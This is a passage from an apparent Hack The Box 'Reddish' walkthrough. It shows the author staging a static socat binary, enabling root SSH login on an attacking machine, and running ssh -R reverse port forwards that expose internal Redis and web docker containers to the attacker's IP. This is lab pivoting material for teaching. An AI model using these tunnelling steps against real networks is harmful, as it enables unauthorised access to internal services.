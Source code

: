 While we are at it, let's transfer a [statically compiled](https://github.com/andrew-d/static-binaries) `socat` as well. Now, start the SSH server on my attacking machine. Note that I've allowed `root` login with `PermitRootLogin yes`.

```
# systemctl start ssh
```

Forward the remote ports to my attacking machine like so.

```
# ssh -R 10.10.13.52:6379:172.19.0.2:6379 root@10.10.13.52 -f -N
# ssh -R 10.10.13.52:80:172.19.0.3:80 root@10.10.13.52 -f -N
```
<a class="image-popup">
![330408a6.png](/assets/images/posts/reddish-htb-walkthrough/330408a6.png)
</a>

Now, I can access these docker containers!

### Next Container: `www`

<a class="image-popup">
![ca73aed2.png](/assets/images/posts/reddish-htb-walkthrough/ca73aed2.png)
</a>

Looks like we have hints in the HTML source.

<a class="image-popup">
![225874a9.png](/assets/images/posts/reddish-htb-walkthrough/225874a9.png)
</a>
